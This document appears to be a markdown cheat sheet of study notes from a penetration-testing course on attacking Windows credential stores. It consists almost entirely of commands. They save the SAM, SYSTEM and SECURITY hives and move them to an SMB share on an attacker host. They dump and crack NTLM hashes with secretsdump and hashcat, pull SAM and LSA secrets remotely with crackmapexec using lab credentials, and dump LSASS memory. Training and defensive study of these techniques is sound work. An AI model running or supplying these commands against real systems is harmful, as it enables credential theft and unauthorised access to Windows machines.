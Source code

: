# Attacking SAM
## Using reg.exe save to Copy Registry Hives
Launching CMD as an admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so:
```
reg.exe save hklm\sam C:\sam.save
```
```
reg.exe save hklm\system C:\system.save
```
```
reg.exe save hklm\security C:\security.save
```
## Creating a Share with smbserver.py
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/kali/Documents/
```
## Moving Hive Copies to Share
```
move sam.save \\[attackerIP]\CompData
```
```
move system.save \\[attackerIP]\CompData
```
```
move security.save \\[attackerIP]\CompData
```
## Dumping Hashes with Impacket's secretsdump.py
```
impacket-secretdump -sam sam.save -security security.save -system system.save LOCAL
```
## Cracking Hashes with Hashcat
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```



## crackmapexec
### Remote Dumping & LSA Secrets Considerations
```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
### Dumping SAM Remotely
```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
# Attacking LSASS
## Task Manager Method
```
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
```
```
Local Security Authority Process
Create dump file
```
